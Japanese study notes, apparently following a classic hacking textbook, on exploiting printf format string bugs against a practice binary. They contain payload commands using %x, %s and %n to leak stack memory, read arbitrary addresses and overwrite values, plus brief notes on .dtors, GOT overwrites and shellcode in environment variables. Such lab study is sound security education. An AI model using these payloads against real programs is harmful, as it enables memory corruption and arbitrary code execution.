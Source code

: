 # フォーマットパラメータ

| param | 型      | 出力                       |
| ----- | ------- | -------------------------- |
| `%d`  | value   | 10進数                     |
| `%u`  | value   | 符号なし10進数             |
| `%x`  | value   | 16進数                     |
| `%s`  | pointer | 文字列                     |
| `%n`  | pointer | ここまでに出力したバイト数 |

```c
printf("A is %d and is at %08x.  B is %x.\n", A, &A, B);
```

の場合は，以下のようになる(`↑`に伸びる)

![stack](./img/3_stack.png)

では，引数が一個減った際の出力は一体なんなのか．

macの場合

```sh
./fmt_uncommon2
# The number of bytes written up to this point X is being stored in count_one, and the number of bytes up to here X is being stored in count_two.
# count_one: 46
# count_two: 113
# A is 5 and is at ea35c3b8.  B is 16e00000.
```

例では，`b7fd6ff4`であった．

## printf(string)

このファイルに対して，`./fmt_vuln %x`とすると，スタック上の4バイトの値が出力される．

`./fmt_vuln $(perl -e 'print "%08x"x40')`

```sh
./fmt_vuln $(perl -e 'print "%08x."x40')
ユーザによって入力されたテキストを出力する正しい方法：
# %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
# ユーザによって入力されたテキストを出力する誤った方法：
# 02297260965fd8c09652a50496602500965bae8006b605289662f9f0783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302506b6020000000007966074f0000000079662f9f096612754000000009661357806b6017096459350000000000000000006b601f0
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

## 任意のアドレスから読み込み

```sh
 ./getenvaddr PATH ./fmt_vuln
# PATH will be at 0x7fffc1845f92
./fmt_vuln AAAA%08x.%08x.%08x.%08x
# ユーザによって入力されたテキストを出力する正しい方法：
# AAAA%08x.%08x.%08x.%08x
# ユーザによって入力されたテキストを出力する誤った方法：
# AAAA01897260.d70a18c0.d6fce504.d70a6500
# [*] test_val @ 0x00404050 = -72 0xffffffb8
./fmt_vuln AAAA%08x.%08x.%08x.%s
# ユーザによって入力されたテキストを出力する正しい方法：
# AAAA%08x.%08x.%08x.%s
# ユーザによって入力されたテキストを出力する誤った方法：
# AAAA01721260.2112e8c0.2105b504.
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

```sh
./fmt_vuln $(printf "\x92\x7f\x74\x12\xfe\x7f\x00\x00")%08x.%08x.%08x.%s
```

## 値の上書き

```sh
./fmt_vuln aiueo
# ユーザによって入力されたテキストを出力する正しい方法：
# aiueo
# ユーザによって入力されたテキストを出力する誤った方法：
# aiueo
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

`00404050`ここにあるため，ここからペイロードを作成．`\x50\x40\x40\x00`

```sh
./fmt_vuln $(printf "\x50\x40\x40\x00")%x%x%x%n
# bash: warning: command substitution: ignored null byte in input
# ユーザによって入力されたテキストを出力する正しい方法：
# P@@%x%x%x%n
# ユーザによって入力されたテキストを出力する誤った方法：
# P@@1ea2260e7ad48c0e7a01504
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

![mem](./img/mem.png)

## ダイレクトパラメータアクセス

>「ダイレクトパラメータアクセス」という $ 記号を使用する機能を使えば、 引数に直接アクセスすることが可能になる

```c
printf("7番目:%7$d, 4番目:%4$05d\n", 10, 20, 30, 40, 50, 60, 70, 80);
// 7番目:70, 4番目:00040
```

## ショートライトを使用する

2Byte書き込むもの．（printfにおいては，`h`修飾子で使える．）

## .dtors を狙った攻撃

Cにおけるデストラクタ．

`dtors_sample.c`にある．これ知らなかった

```sh
nm ./dtors_sample
# 0000000000403e20 d _DYNAMIC
# 0000000000404000 d _GLOBAL_OFFSET_TABLE_
# 0000000000402000 R _IO_stdin_used
# 0000000000402214 r __FRAME_END__
# 00000000004020b0 r __GNU_EH_FRAME_HDR
# 0000000000404038 D __TMC_END__
# 0000000000404038 B __bss_start
# 0000000000404028 D __data_start
# 0000000000401100 t __do_global_dtors_aux
# 0000000000403e10 t __do_global_dtors_aux_fini_array_entry
# 0000000000404030 D __dso_handle
# 0000000000403e08 t __frame_dummy_init_array_entry
#                  w __gmon_start__
# 0000000000403e10 t __init_array_end
# 0000000000403e08 t __init_array_start
# 00000000004011d0 T __libc_csu_fini
# 0000000000401170 T __libc_csu_init
#                  U __libc_start_main@@GLIBC_2.2.5
# 0000000000401080 T _dl_relocate_static_pie
# 0000000000404038 D _edata
# 0000000000404040 B _end
# 00000000004011d4 T _fini
# 0000000000401000 T _init
# 0000000000401050 T _start
# 0000000000401158 t cleanup
# 0000000000404038 b completed.7325
# 0000000000404028 W data_start
# 0000000000401090 t deregister_tm_clones
#                  U exit@@GLIBC_2.2.5
# 0000000000401130 t frame_dummy
# 0000000000401132 T main
#                  U puts@@GLIBC_2.2.5
# 00000000004010c0 t register_tm_clones
```

なかったように見えたが，この領域が書き込み可能らしい．

しかも毎回ここは呼ばれるため，

```sh
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./fmt_vuln
# SHELLCODE : 0xbffff9ec
```

このように環境変数を埋め込んだ上でこのセクションに出力されたアドレスを書き込むと，シェルが起動できてしまう．

## notesearch のさらなる脆弱性

## グローバルオフセットテーブル(GOT)の上書き

PLT，ライブラリが動的に呼ばれる時のやつ．

```
080482f8 <printf@plt>:
80482f8: 80482fe: 8048303:
ff 25 80 97 04 08 68 18 00 00 00
e9 b0 ff ff ff
jmp *0x8049780
push $0x18
jmp 80482b8 <_init+0x18>
```

あとは口頭で
